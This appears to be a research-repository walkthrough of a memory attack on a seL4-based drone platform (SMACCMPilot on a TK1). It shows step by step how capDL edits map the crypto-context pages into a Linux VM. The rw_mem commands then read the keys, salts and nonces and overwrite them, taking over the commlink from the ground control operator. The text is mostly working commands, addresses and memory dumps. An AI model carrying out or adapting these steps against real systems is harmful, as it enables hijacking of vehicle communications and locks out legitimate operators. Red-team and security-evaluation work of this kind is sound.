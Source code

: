 # Memory attack on Linux Virtual Machine

This attack exploits a memory vulnerability to read and overwrite the communication crypto keys.
That way the attacker gains access to commlink, while denying access to the legitimate GCS operator.
These notes describe how the attack is constructed.

## Modifying the VM


The goal is to overwrite the nonce and salt for the encryption and
decryption functions. We accomplish this by mapping the relevant pages
of memory into the memory space of the VM. First we modify the VM to
tell it that we are inserting two extra pages to be loaded at a
specific memory address (we picked `0xd000000` somewhat arbitrarily).
To do this, run `make menuconfig` and select the option `Use hacked VM
configuration` under the smaccmpilot-tk1 application. Then recompile
the TK1 image.


## Modifying the capDL file

First we need to locate the memory where encryption information is
stored. The relevant data is in `build/arm/tk1/smaccmpilot-tk1` in the
binaries:

  - `Decrypt_inst_group_bin`
  - `Encrypt_inst_group_bin`

We start by looking at the memory for the decoder:
```
arm-none-eabi-objdump -x Decrypt_inst_group_bin
```

The crypto information is stored in the C variable
`ctx_dl_global_gec_sym_key_dec` which we can locate in the symbol
table from objdump:

```
00134478 l     O .bss	00001128 ctx_dl_global_gec_sym_key_dec
```

This means the variable will be at the virtual memory address
`0x00134478`. That means it's at offset `0x478` in page `0x134`. But,
this variable points to a rather large structure and it turns out the
information we want will actually spill on to the next page. So we
want to map page `0x135` into the VM memory space.

To do this we modify the `smaccmpilot.cdl` file located in the same
directory as the binaries. Here we find the page table for
`Decrypt_inst_group_bin`:

```
Decrypt_inst_group_bin_pd {
0x0: pt_Decrypt_inst_group_bin_0000
0x1: pt_Decrypt_inst_group_bin_0003
}
```

Each page table represents 2mb so the page table at 0x0 has entries
for addresses in the 0x00000000 - 0x02000000 range which covers the
address we are interested in (0x01350000). In particular, we want to
find the frame mapped at `0x135` in that page table:

```
pt_Decrypt_inst_group_bin_0000 {
...
0x135: frame_Decrypt_inst_group_bin_0065 (RWX)
...
}
```

First we need to mark this page as uncached since the Linux VM treats
it as uncached. We do this by adding the `uncached` attribute:

```
pt_Decrypt_inst_group_bin_0000 {
...
0x135: frame_Decrypt_inst_group_bin_0065 (RWX, uncached)
...
}
```

Then, we need to insert this frame into the cnode for the vm. We need
to leave one empty cnode and then place it in the next available slot:

```
Virtual_Machine_inst.vm_obj_cnode {
...
0x2a: Virtual_Machine_inst.vm_obj_irq_63
0x2b: Virtual_Machine_inst.vm_obj_irq_122
0x2d: frame_Decrypt_inst_group_bin_0065 (RWX)
...
}
```

We now repeat this process for Encrypt_inst_group_bin:

```
arm-none-eabi-objdump -x Encrypt_inst_group_bin
```

The relevant variable is `ctx_dl_global_gec_sym_key_enc` which we can
find in the symbol table:

```
00136548 l     O .bss	00001128 ctx_dl_global_gec_sym_key_enc
```

The virtual memory address is `0x00136548` which is page `0x136` with
offset `0x548`. Again the information we actually want will spill onto
the next page at `0x137`. Looking at the page table:

```
Encrypt_inst_group_bin_pd {
0x0: pt_Encrypt_inst_group_bin_0000
0x1: pt_Encrypt_inst_group_bin_0003
}
```

We see that we want offset `0x137` in `pt_Encrypt_inst_group_bin_0000` which is:

```
pt_Encrypt_inst_group_bin_0000 {
...
0x137: frame_Encrypt_inst_group_bin_0289 (RWX)
...
}
```

First we mark this as `uncached`:

```
pt_Encrypt_inst_group_bin_0000 {
...
0x137: frame_Encrypt_inst_group_bin_0289 (RWX, uncached)
...
}
```

We then add this to the VM's cnode:

```
Virtual_Machine_inst.vm_obj_cnode {
...
0x2a: Virtual_Machine_inst.vm_obj_irq_63
0x2b: Virtual_Machine_inst.vm_obj_irq_122
0x2d: frame_Decrypt_inst_group_bin_0065 (RWX)
0x2e: frame_Encrypt_inst_group_bin_0289 (RWX)
...
}
```

Now recompile and ensure that the cdl file is not overwritten by the
build process.


## Finding the key, salt, and nonce in the VM

Now we can boot the TK1 and try to locate the key, salt, and nonce for
both the decrypt and encrypt components. Within the VM, the pages we
mapped in are available at the memory range 0xd0000000 - 0xd002000.
Data 61 has provided the rw_mem.c tool in this repository which we can
use to read and modify memory.

First we can locate the keys since we know exactly what they are. To
read the memory we mapped in, do:

```
make read
```

And searching for the keys finds

```
0xd00004c0: 0xfe 0x45 0x2e 0x54 0x20 0xbf 0xb4 0x21 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 
0xd00004d0: 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 0x32 0x70 0x17 0xeb 0x26 0x63 0x05 0xfa
...
0xd0001590: 0x59 0x71 0x2b 0xaf 0xcf 0xf2 0xab 0x24 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 
0xd00015a0: 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0xab 0x74 0xc9 0xd3 0xae 0x72 0xce 0xdb 
```

Thus the keys are at 0xd00004c8 and 0xd0001598. A make target is
available to read these keys:

```
root@tk1:~/vm_hack# make read-keys
./rw_mem -a 0xd00004c8 -s 16
0xd00004c8: 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 
./rw_mem -a 0xd0001598 -s 16
0xd0001598: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 
```

We can also find the salts by searching for them directly:

```
0xd0000580: 0x00 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x08 0x07 0x06 0x05 
0xd0000590: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x79 0x0c 0x00 0x00 0x00 0x00 0x00 
...
0xd0001650: 0x00 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x11 0x12 0x13 0x14 
0xd0001660: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x79 0x0c 0x00 0x00 0x00 0x00 0x00 0x00
```

Thus the salts are at 0xd00058c and 0xd000165c. A make target is
available to read these salts:

```
root@tk1:~/vm_hack# make read-salts
./rw_mem -a 0xd000058c -s 8
0xd000058c: 0x08 0x07 0x06 0x05 0x04 0x03 0x02 0x01 
./rw_mem -a 0xd000165c -s 8
0xd000165c: 0x11 0x12 0x13 0x14 0x15 0x16 0x17 0x18 
```

Finding the nonces is tricker because they are initially all zero so
we can't just search for them. Instead we save the results of `make
read` over several requests to the odroid and diff the resulting files
to find the nonce. After doing 4758 requests we can find the nonces here:


```
0xd0000590: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x96 0x12 0x00 0x00 0x00 0x00 0x00 
0xd00005a0: 0x00 0x00 0x12 0x95 0x07 0x14 0xa5 0x56 0x62 0x19 0x88 0x89 0x37 0xbe 0x64 0xaf
...
0xd0001660: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00 
0xd0001670: 0x00 0x00 0x00 0x00 0x01 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 
```

The nonce is a uint64 stored in little endian format. The nonces are
at 0xd0000599 and 0xd0001668. A make target is available to read these
nonces:

```
root@tk1:~/vm_hack# make read-nonces
./rw_mem -a 0xd0000599 -s 8
0xd0000599: 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00 
./rw_mem -a 0xd0001668 -s 8
0xd0001668: 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00
```

Now the attack simply overwrites the salts with the attacker's salts
(all zeros) and resets the nonces to zero so that the attacker can
syncronize with the Odroid. A make target is available to do these
overwrites:

```
root@tk1:~/vm_hack# make hack
./rw_mem -a 0xd000058c -s 8 -w -h 0x00
./rw_mem -a 0xd000165c -s 8 -w -h 0x00
./rw_mem -a 0xd0000599 -s 8 -w -h 0x00
./rw_mem -a 0xd0001668 -s 8 -w -h 0x00
```
